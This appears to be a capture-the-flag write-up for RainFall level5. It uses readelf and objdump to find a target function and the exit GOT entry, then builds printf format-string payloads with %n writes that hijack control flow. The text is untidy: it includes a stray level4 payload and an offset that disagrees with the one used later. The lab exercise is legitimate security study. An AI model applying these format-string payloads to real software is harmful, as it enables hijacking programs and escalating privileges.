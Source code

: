 ```bash
evel5@RainFall:~$ readelf -s level5 | grep o
Symbol table '.dynsym' contains 10 entries:
     5: 00000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
Symbol table '.symtab' contains 73 entries:
    31: 08048420     0 FUNC    LOCAL  DEFAULT   13 __do_global_dtors_aux
    32: 0804984c     1 OBJECT  LOCAL  DEFAULT   25 completed.6159
    33: 08049850     4 OBJECT  LOCAL  DEFAULT   25 dtor_idx.6161
    39: 080485a0     0 FUNC    LOCAL  DEFAULT   13 __do_global_ctors_aux
    57: 00000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
    59: 08049844     0 OBJECT  GLOBAL HIDDEN    24 __dso_handle
    67: 080484a4    30 FUNC    GLOBAL DEFAULT   13 o

```

address of function o: 080484a4 --> \xa4\x84\x04\x08

```bash
level5@RainFall:~$ objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```

\_exit: 08049828 --> \x28\x98\x04\x08

level5@RainFall:~$ (python -c 'print ("AAAABBBB" + "%x " \* 20)';cat) | ./level5
AAAABBBB200 b7fd1ac0 b7ff37d0 41414141 42424242 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520

````

offset of buffer of printf is `3`


```bash
(python -c 'print ("\x10\x98\x04\x08" + "\x12\x98\x04\x08" + "%12$n" + "%12$21820x" + "%12$n" + "%12$43966x" + "%13$n")'; cat) | ./level4
````

(python -c 'print ("\x2a\x98\x04\x08" + "\x28\x98\x04\x08" + "%2052x" + "%8$n" + "%33956x" + "%9$n")'; cat) | ./level5

payload += \x28\x98\x04\x08
payload += \x2a\x98\x04\x08
payload += %2052x --> 0804
payload += %33956x --> 84a4
payload += b'%8$n'
